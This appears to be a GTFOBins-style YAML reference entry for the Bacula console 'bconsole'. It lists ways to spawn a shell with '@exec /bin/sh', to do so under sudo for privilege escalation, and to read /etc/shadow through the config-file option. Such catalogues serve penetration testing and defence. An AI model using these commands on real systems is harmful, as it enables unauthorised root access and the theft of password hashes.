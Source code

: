 ```yaml
---
functions:
  shell:
    - code: |
        bconsole
        @exec /bin/sh
  sudo:
    - code: |
        sudo bconsole
        @exec /bin/sh
  file-read:
    - description: The file is actually parsed and the first wrong line is returned in an error message, thus it may not be suitable for reading arbitrary files.
      code: bconsole -c /etc/shadow
---
```

